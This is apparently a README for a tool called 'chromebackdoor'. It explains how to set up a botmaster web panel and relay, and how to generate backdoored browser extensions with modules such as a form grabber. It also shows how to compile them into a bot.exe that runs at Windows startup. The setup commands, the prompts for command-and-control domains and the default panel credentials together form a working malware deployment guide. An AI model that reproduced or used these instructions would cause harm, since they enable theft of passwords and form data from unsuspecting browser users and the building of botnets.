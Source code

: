 #INSTALL WEB

1) unzip file generated by chromebackdoor

```sh
unzip folder.zip
```

2) Upload a folder web & relais on hosting

3) create database & user and update config file
```sh
/web/includes/config.php
```

4) Upload .SQL on database

```sh
/SQL/chromebackdoor.sql
```

5) Login on webpanel (web/index.php)
```python
username = root
password = toor
```

#GENERATE BOT (without .EXE)

install all dependency & start chromebackdoor.py

```sh
python chromebackdoor.py
```

You can generate backdoor for all most popular browser

exemple for Google Chrome:

```sh
python chromebackdoor.py --chrome
```

Now enter a botmaster domain name (need SSL):

```bash
[?] Website hosted (https://localhost/)? https://lynxframework.com/
```
Same for relais (need SSL):
```sh
[?] Website relais url (https://localhost/relais)? https://lynxrelay.com/relais
or use same domain
[?] Website relais url (https://localhost/relais)? https://lynxframework.com/relais
```
```sh
[?] Information correct [Y/n]? Y
```

Select one module (exemple FormGrabber V1.0)
```sh
[?] please select numbers ? 2
```

The script  generate zip file with .crx .perm and backdoor folder for update icon / name / desc

#BUILD .EXE

1) run chrommebackdoor with --build
```sh
python chromebackdoor.py --build
```
2) select browser backdoor (exemple --chrome)
```sh
[?] crx fime (/root/..) ? /root/backdoor.crx
```
3) wine start installer.exe and generate bot.exe
4) Start bot.exe with windows
```sh
Generate successful : {chromebackdoor_folder}/bot.exe
```
